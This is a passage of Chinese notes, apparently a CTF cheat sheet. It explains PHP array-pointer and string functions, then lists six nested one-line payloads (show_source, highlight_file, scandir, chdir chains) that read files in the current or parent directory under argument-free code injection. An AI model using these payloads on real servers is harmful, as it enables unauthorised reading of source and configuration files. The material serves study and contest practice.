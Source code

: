 ```
函数改变当前的目录。

strrev():
用于反转给定字符串

array_reverse() 
以相反的元素顺序返回数组

array_flip() :
交换数组中的键和值，成功时返回交换后的数组

array_rand() :
从数组中随机取出一个或多个单元

数组移动操作

each() 
返回数组中当前的键/值对并将数组指针向前移动一步

end() 
将数组的内部指针指向最后一个单元

next() 
将数组中的内部指针向前移动一位

prev() 
将数组中的内部指针倒回一位

reset()： 
将内部指针指向数组中的第一个元素，并输出


highlight_file(array_rand(array_flip(scandir(getcwd())))); 
查看和读取当前目录文件

print_r(scandir(dirname(getcwd()))); 
查看上一级目录的文件

print_r(scandir(next(scandir(getcwd())))); 
查看上一级目录的文件

show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
读取上级目录文件

```
